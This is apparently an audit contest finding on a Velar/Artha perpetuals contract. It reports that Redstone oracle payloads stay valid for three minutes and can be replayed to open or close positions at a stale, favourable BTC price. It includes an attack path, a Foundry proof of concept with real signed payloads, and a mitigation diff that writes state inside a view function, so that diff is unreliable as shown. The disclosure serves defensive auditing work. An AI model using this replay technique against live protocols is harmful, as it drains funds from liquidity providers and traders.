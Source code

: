 Magnificent Pewter Stork

High

# malicious users changes price in favor of themself

### Summary

malicious users can use old payloads to change price in favor of them self

### Root Cause
Oracle::price uses RedstoneExtractor.sol contract to get a new price and when users want to open or close a position, a new payload will be fetched for them and then that is attached to their transaction, more ever in Oracle contract price will be changed per block and generate a new block in BOB network take 2 seconds, and RedstoneExractor.sol uses default validateTimestamp function which every payload is valid for 3 minutes, hence 90 blocks will be mined in 3 minutes, its mean for example if a payload is fetched in block 1 that is valid in block 90 because DEFAULT_MAX_DATA_TIMESTAMP_DELAY_SECONDS is 3 minutes by default

```solidity
contract RedstoneExtractor is PrimaryProdDataServiceConsumerBase {
  function extractPrice(bytes32 feedId, bytes calldata)
      public view returns(uint256, uint256)
  {
    bytes32[] memory dataFeedIds = new bytes32[](1);
    dataFeedIds[0] = feedId;
    (uint256[] memory values, uint256 timestamp) =
        getOracleNumericValuesAndTimestampFromTxMsg(dataFeedIds);
 @>>>>   validateTimestamp(timestamp); //!!!
    return (values[0], timestamp);
  }
}
abstract contract RedstoneConsumerBase{
    ...
function validateTimestamp(uint256 receivedTimestampMilliseconds) public view virtual {
    RedstoneDefaultsLib.validateTimestamp(receivedTimestampMilliseconds);
}
    ...
}

library RedstoneDefaultsLib {
@>>>  uint256 constant DEFAULT_MAX_DATA_TIMESTAMP_DELAY_SECONDS = 3 minutes;
  uint256 constant DEFAULT_MAX_DATA_TIMESTAMP_AHEAD_SECONDS = 1 minutes;

  error TimestampFromTooLongFuture(uint256 receivedTimestampSeconds, uint256 blockTimestamp);
  error TimestampIsTooOld(uint256 receivedTimestampSeconds, uint256 blockTimestamp);

  function validateTimestamp(uint256 receivedTimestampMilliseconds) internal view {
    // Getting data timestamp from future seems quite unlikely
    // But we've already spent too much time with different cases
    // Where block.timestamp was less than dataPackage.timestamp.
    // Some blockchains may case this problem as well.
    // That's why we add MAX_BLOCK_TIMESTAMP_DELAY
    // and allow data "from future" but with a small delay
    uint256 receivedTimestampSeconds = receivedTimestampMilliseconds / 1000;

    if (block.timestamp < receivedTimestampSeconds) {
      if ((receivedTimestampSeconds - block.timestamp) > DEFAULT_MAX_DATA_TIMESTAMP_AHEAD_SECONDS) {
        revert TimestampFromTooLongFuture(receivedTimestampSeconds, block.timestamp);
      }
@>>>    } else if ((block.timestamp - receivedTimestampSeconds) > DEFAULT_MAX_DATA_TIMESTAMP_DELAY_SECONDS) {
      revert TimestampIsTooOld(receivedTimestampSeconds, block.timestamp);
    }
  }

  function aggregateValues(uint256[] memory values) internal pure returns (uint256) {
    return NumericArrayLib.pickMedian(values);
  }
}
```
### Attack Path

1- attacker get a payload when BTC price 50,000 in block 1
2- price goes up to 55,000 in block 20[40 sec later]
3- attacker calls `Api::open` and pass old payload to that[old payload is valid becuase block.timestamp - receivedTimestampSeconds = 40 sec < 3 min ]


### Impact

- loss of funds for LPs
- positions can be liquidated with pass lower or higher price[loss of funds for users] 

### Code Snippet
https://github.com/sherlock-audit/2024-08-velar-artha/blob/main/gl-sherlock/contracts/RedstoneExtractor.sol#L13



### PoC
Clone [minimal foundry repo](https://github.com/redstone-finance/minimal-foundry-repo) and paste this test in `tests/counter.t.sol` also u need `lib/vendor/data-services/PrimaryProdDataServiceConsumerBase.sol` which u can find that in velar contest repo
**Coded PoC:**
<summary>
    
<details>

```solidity    
    // SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import 'forge-std/console2.sol';
import { PrimaryProdDataServiceConsumerBase } from "lib/vendor/data-services/PrimaryProdDataServiceConsumerBase.sol";


contract OracleTest is Test {
    RedstoneExtractor extractor;

    function setUp() public {
        extractor = new RedstoneExtractor();
    }

    function testOracleData() public {
        //GMT: Monday, September 2, 2024 1:02:07 AM, Price 121e8
        bytes memory redstonePayload1 = bytes(hex"425443000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000002d13759000191b040de9800000020000001123069eb25b7ced79ecb8a1a0f1f7b20ac757c476dd23e1e8fff7decf7a86b60626746cd986247d6913010053871bf71dc69482e2599add546220186b8ad3d1f1c0001000000000002ed57011e0000");
        //GMT: Monday, September 2, 2024 1:03:01 AM, Price 123e8
        bytes memory redstonePayload2 = bytes(hex"425443000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000002dd231b000191b041b18800000020000001527595c9bc4e519c33e7ed918dfcfceed9a7137dfc5e781feaf5f64f7a586c7e1cdf0e7e99aec8d41a2044403adf491256d42fb9bf35616cca1f84701b88289d1c0001000000000002ed57011e0000");
        
        //GMT: Monday, September 2, 2024 1:04:01 AM
        vm.warp(1725239041);
        
        bytes memory encodedFunction1 = abi.encodeWithSignature(
            "extractPrice(bytes32,bytes)",
            bytes32("BTC"),redstonePayload1
        );

        bytes memory encodedFunction2 = abi.encodeWithSignature(
            "extractPrice(bytes32,bytes)",
            bytes32("BTC"),redstonePayload2
        );
        bytes memory encodedFunctionWithRedstonePayload1 = abi.encodePacked(
            encodedFunction1,
            redstonePayload1
        );

        bytes memory encodedFunctionWithRedstonePayload2 = abi.encodePacked(
            encodedFunction2,
            redstonePayload2
        );




        (bool success, bytes memory result) = address(extractor).call(
            encodedFunctionWithRedstonePayload1
        );
        assertEq(success, true);
        (uint price,) = abi.decode(result,(uint256, uint256));
        assertEq(price, 121e8);

        // Securely getting oracle value
        (success, result) = address(extractor).call(
            encodedFunctionWithRedstonePayload2
        );
        assertEq(success, true);
        (price,) = abi.decode(result,(uint256, uint256));
        assertEq(price, 123e8);

        (success, result) = address(extractor).call(
            encodedFunctionWithRedstonePayload1
        );

        (price,) = abi.decode(result,(uint256, uint256));
        assertEq(price, 121e8);


        assertEq(success, true);


    }
}


contract RedstoneExtractor is PrimaryProdDataServiceConsumerBase {
  function extractPrice(bytes32 feedId, bytes calldata)
      public view returns(uint256, uint256)
  {
    bytes32[] memory dataFeedIds = new bytes32[](1);
    dataFeedIds[0] = feedId;
    (uint256[] memory values, uint256 timestamp) =
        getOracleNumericValuesAndTimestampFromTxMsg(dataFeedIds);
    validateTimestamp(timestamp); //!!!
    return (values[0], timestamp);
  }
}
```
 </details></summary>

### Mitigation

```diff
 contract RedstoneExtractor is PrimaryProdDataServiceConsumerBase {
+
+  uint lastUpdate;
+  uint lastPrice;
   function extractPrice(bytes32 feedId, bytes calldata)
       public view returns(uint256, uint256)
   {
+
+    if(block.timestamp - lastUpdate > 3 minutes) {
     bytes32[] memory dataFeedIds = new bytes32[](1);
     dataFeedIds[0] = feedId;
     (uint256[] memory values, uint256 timestamp) =
         getOracleNumericValuesAndTimestampFromTxMsg(dataFeedIds);
     validateTimestamp(timestamp); //!!!
-    return (values[0], timestamp);
+      lastUpdate = block.timestamp;
+      lastPrice = values[0];
+    }
+    return (lastPrice, lastUpdate);
   }
 }

```
